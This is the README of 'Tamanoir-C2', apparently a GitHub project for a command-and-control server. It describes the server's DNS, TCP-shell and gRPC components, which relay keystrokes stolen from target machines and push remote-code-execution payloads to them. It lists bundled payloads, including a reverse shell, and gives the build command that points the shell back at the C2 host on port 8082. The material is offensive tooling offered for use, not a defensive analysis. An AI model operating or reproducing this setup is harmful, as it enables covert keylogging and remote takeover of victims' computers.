 # Tamanoir-C2 server

Tamanoir-C2 (Command and Control) server's  purpose is multiple: 
- act as a dns proxy
- extract typed keystrokes from target
- transmit selected RCE( Remote Code Execution) payloads to target



- ⚠ make sure port 53 is available `sudo systemctl stop systemd-resolved` can help


## Architecture
It is composed of 3 running servers:
| type | default port | goal|
|----------|----------|----------|
| DNS  | 53 | handle dns requests from targets and rce payloads transmission |
| TCP  | 8082 | handle remote shell sessions |
| GRPC  | 50051 | handle communication with tui clients |



## Available Rce payloads
Tamanoir comes with ready-to-use payloads :


| name | description | comments | 
|----------|----------|----------|
| hello |  prints a cute tamanoir to tamanoir stdout  | hello-world payload, demonstrate how a big payload can be transmitted by chunks to target|
| xeyes | open `xeyes` program on target gui | demonstrate how to execute simple shellcode. Only works if target uses x11 |
| reverse-shell | open a tcp-shell communicating with tamanoir-c2 | needs to specify IP and PORT vars when building (see below) 


- payloads location: ./assets/payloads


## Builder
 
 `tamanoir-c2 rce build`

- will build and strip provided payloads

| name long| name short | description |  default|
|----------|----------|----------|----------|
| --target_arch| -t | x86_64 or aarch64  |  x86_64 |
| --crate_path | -c | path to payload crate (see ./assets/payloads) for examples | - |
| --engine | -e |cross build engine,if needed (docker or podman)  | docker |
| --build-vars | -b | key=value, space-separated env vars required for your payload, if needed  | - | 

- payload output: `~/.tamanoir/bins`
- ⚠ needs [cross](https://github.com/cross-rs/cross) for cross-compilation if target arch != current arch
- ⚠ max payload size (once compiled and stripped) = 4096 bytes

#### example: build reverse-shell 
`tamanoir-c2  rce  build  -c ./assets/payloads/reverse-shell  -b "IP=<tamanoir-c2-ip> PORT=8082"`
will compile `reverse-shell` payload:
- for x86_64 target arch 
- use cross to build it if current arch isn't x86_64
- will establish shell session with \<tamanoir-c2-ip>:8082



## Tester
 `tamanoir-c2 rce test -b <path-to-your-payload-binary>`
- test your payload (locally)
- ⚠ path needs to be absolute

## ⚠ Limitations
Though it is  possible to compile payloads for `x86_64` and `aarch64` architectures, currently only `x86_64` target arch is viable for provided payloads.
Any contributions from people knowledgable about aarch64 assembly code are welcome! (see open issues for context)

